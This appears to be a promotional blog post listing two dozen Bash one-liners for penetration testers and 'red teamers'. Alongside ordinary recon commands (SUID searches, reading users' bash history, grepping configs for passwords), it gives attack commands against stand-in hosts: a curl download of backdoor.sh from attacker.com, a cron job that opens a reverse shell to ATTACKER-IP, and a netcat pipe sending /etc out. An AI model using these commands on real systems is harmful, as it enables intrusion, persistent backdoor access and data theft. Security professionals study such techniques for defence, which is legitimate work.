 15+ Linux Bash One-Liners Hackers Use (And You Should Too!)
Very Lazy Tech 👾
Very Lazy Tech 👾

Follow
3 min read
·
Jul 30, 2025
298


2





✨ Link in the first comment

Linux power users and ethical hackers know the true power of the terminal lies in concise, clever one-liners. These one-liners can automate tasks, extract hidden data, escalate privileges, scan systems, and much more — all in a single line of Bash.

Below, we share over 15 elite Bash one-liners that every penetration tester, red teamer, or Linux enthusiast should add to their toolbox.

Press enter or click to view image in full size

Photo by Gabriel Heinzer on Unsplash
🔥 Core Info Gathering & Recon
1. Start a Quick Web Server (for file transfers/payloads)

python3 -m http.server 8080
Use this to exfil data, serve payloads, or quickly download tools to a compromised host. No setup required.

2. Find All SUID Binaries (Privilege Escalation)

find / -perm -4000 -type f 2>/dev/null
Look for binaries that execute as root. Combine this with GTFOBins to exploit.

3. List All Cron Jobs Across Users

for user in $(cut -d: -f1 /etc/passwd); do crontab -u $user -l 2>/dev/null; done
Perfect for persistence discovery and privilege escalation.

4. Basic Port Scan with Bash (when tools are restricted)

for port in {20..1024}; do (echo >/dev/tcp/10.10.10.5/$port) && echo "Port $port open"; done 2>/dev/null
Sure, nmap is better — but when you’re stuck without tools, this works.

5. Check All Network Interfaces + IPs

ip a | grep inet
Fast view of IPs — especially useful inside isolated subnets or pivoted hosts.

🕵️‍♂️ Enumeration & Post-Exploitation
6. List Users (and spot service/system accounts)

cut -d: -f1 /etc/passwd
7. Discover World-Writable Files (misconfig alert!)

find / -type f -perm -o+w 2>/dev/null
8. Search for Passwords or Secrets in Config Files

grep -iR 'password\|secret\|key\|token' /etc 2>/dev/null
9. Monitor Real-Time Network Connections

watch -n 1 ss -tuna
Much lighter than netstat, useful for catching beaconing or reverse shells.

10. View Bash History Across All Users

find /home /root -name ".*history" -exec cat {} \; 2>/dev/null
Critical for finding past credentials, missteps, or recon clues from admins.

🧠 Data Extraction & Movement
11. Transfer Files to Remote Machine over SSH

scp payload.sh user@192.168.1.5:/tmp
Use scp for secure movement of tools between footholds.

12. Transfer & Extract Compressed Payloads On-the-Fly

tar czf - /loot | ssh user@remote "tar xzf - -C /tmp"
Saves disk space. No temporary files. Instant deployment.

13. Grab Email Addresses from a File System

grep -oE "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-z]{2,6}" * 2>/dev/null | sort -u
14. Extract Unique IPs from Logs (Quick Threat Intel)

grep -oE '\b([0-9]{1,3}\.){3}[0-9]{1,3}\b' /var/log/* 2>/dev/null | sort -u
15. Download File Silently with Curl (Payloads, Tools)

curl -sO http://attacker.com/backdoor.sh
💣 Persistence, Priv-Esc & Lateral Movement
16. Add a Backdoor Reverse Shell to Cron (Demo only)

echo "* * * * * bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1" | crontab -
17. Find Writable Directories (Good for Dropping Files)

find / -type d -writable 2>/dev/null
18. Compress and Exfiltrate via Netcat (Old but gold)

tar czf - /etc | nc ATTACKER-IP 1234
Start listener on attack box: nc -lvp 1234 > data.tar.gz

19. Check for Running Docker Containers (Escape Paths)

docker ps -a 2>/dev/null
Can lead to container escape or horizontal movement inside Kubernetes.

20. Get Root’s Mail (Yes, people still leave secrets there)

cat /var/mail/root 2>/dev/null
🎭 Obfuscation, Encoding, Decryption
21. Decode Base64 Payloads

echo 'U29ja3M=' | base64 -d
22. Convert Hex to ASCII (Useful for C2 traffic)

echo 4861636b | xxd -r -p
23. Generate Strong Passwords Fast

tr -dc A-Za-z0-9 </dev/urandom | head -c 16; echo
24. Check System Info in One Shot (Pivot Context)

whoami && uname -a && id && uptime
🎉 Join the VeryLazyTech community today and level up your skills! 🎉

Become VeryLazyTech member! 🎁

Follow us on:

✖ Twitter @VeryLazyTech.
👾 Github @VeryLazyTech.
📜 Medium @VeryLazyTech.
📺 YouTube @VeryLazyTech.
📩 Telegram @VeryLazyTech.
🕵️‍♂️ My Site @VeryLazyTech.
Visit our shop for e-books and courses. 📚

